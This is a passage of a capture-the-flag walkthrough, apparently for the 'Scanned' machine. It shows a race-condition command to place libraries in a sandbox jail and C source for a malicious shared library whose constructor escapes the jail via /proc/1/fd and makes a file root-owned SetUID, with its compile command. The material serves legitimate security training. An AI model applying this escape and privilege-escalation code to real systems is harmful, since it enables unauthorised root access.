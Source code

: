 #### Run with Fixed Libs

I’ll use a similar loop to last time, except this time I can sleep longer because I have the 3 second sleep at the start of `runsu`. I’ll copy all the libs into the jail to be lazy/safe:

```

clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; echo "copied libs"
[1] 124255
copied libs
su: user root does not exist or the user entry does not contain all the required fields
Exited
Kill err: (3)

```

This time it runs! It errors out in the `su` call, but that looks like `su` being called.

### Malicious Library File

#### Write and Compile Library

My library will be very simple. It only has a constructor that is called when the library loads, and that `init` function will go outside the jail and modify `/tmp/0xdf` to be owned by root and SetUID (4777):

```

#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

static __attribute__ ((constructor)) void init(void) {

    char fn[120] = "/proc/1/fd/3/../../../../../../../../tmp/0xdf";
    char mode[] = "4777";
    int mode_int = strtol(mode, 0, 8);
    chown(fn, 0, 0);
    chmod(fn, mode_int);
}

```

I’ll compile this as a shared object (library) file and upload it to Scanned:

```

oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 

```

#### Failure
